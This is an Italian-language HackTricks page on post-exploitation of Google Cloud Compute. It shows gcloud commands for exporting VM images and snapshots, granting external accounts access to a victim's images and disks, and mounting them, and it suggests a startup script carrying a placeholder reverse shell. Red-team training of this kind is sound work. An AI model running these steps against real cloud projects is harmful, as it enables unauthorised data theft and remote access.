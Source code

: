 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Per ulteriori informazioni su Compute e VPC (Networking) controlla:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Esporta e ispeziona le immagini localmente

Questo permetterebbe a un attaccante di **accedere ai dati contenuti all'interno di immagini già esistenti** o **creare nuove immagini di VM in esecuzione** e accedere ai loro dati senza avere accesso alla VM in esecuzione.

È possibile esportare un'immagine VM in un bucket e poi scaricarla e montarla localmente con il comando:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Per eseguire questa azione, l'attaccante potrebbe aver bisogno di privilegi sul bucket di archiviazione e sicuramente **privilegi su cloudbuild**, poiché è il **servizio** che verrà richiesto di eseguire l'esportazione.\
Inoltre, affinché questo funzioni, il SA di codebuild e il SA di compute devono avere permessi privilegiati.\
Il SA di cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` ha bisogno di:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

E il SA `<project-id>-compute@developer.gserviceaccount.com` ha bisogno di:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Esporta e ispeziona snapshot e dischi localmente

Non è possibile esportare direttamente snapshot e dischi, ma è possibile **trasformare uno snapshot in un disco, un disco in un'immagine** e seguendo la **sezione precedente**, esportare quell'immagine per ispezionarla localmente.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Ispezionare un'immagine creando una VM

Con l'obiettivo di accedere ai **dati memorizzati in un'immagine** o all'interno di una **VM in esecuzione** da cui un attaccante **ha creato un'immagine,** è possibile concedere a un account esterno l'accesso all'immagine:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
e poi creare una nuova VM da esso:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Se non puoi dare accesso al tuo account esterno tramite l'immagine, puoi avviare una VM utilizzando quell'immagine nel progetto della vittima e **far eseguire alla metadata una reverse shell** per accedere all'immagine aggiungendo il parametro:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Ispezionare uno Snapshot/Disk collegandolo a una VM

Con l'obiettivo di accedere ai **dati memorizzati in un disco o in uno snapshot, potresti trasformare lo snapshot in un disco, un disco in un'immagine e seguire i passaggi precedenti.**

Oppure potresti **concedere a un account esterno l'accesso** al disco (se il punto di partenza è uno snapshot, concedi l'accesso allo snapshot o crea un disco da esso):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Collegare il disco** a un'istanza:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montare il disco all'interno della VM:

1.  **SSH nella VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identificare il Disco**: Una volta dentro la VM, identificare il nuovo disco elencando i dispositivi disco. Tipicamente, puoi trovarlo come `/dev/sdb`, `/dev/sdc`, ecc.
3. **Formattare e Montare il Disco** (se è un disco nuovo o raw):
*   Creare un punto di montaggio:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Montare il disco:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Se **non puoi dare accesso a un progetto esterno** allo snapshot o al disco, potresti dover **eseguire queste azioni all'interno di un'istanza nello stesso progetto dello snapshot/disk**.

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
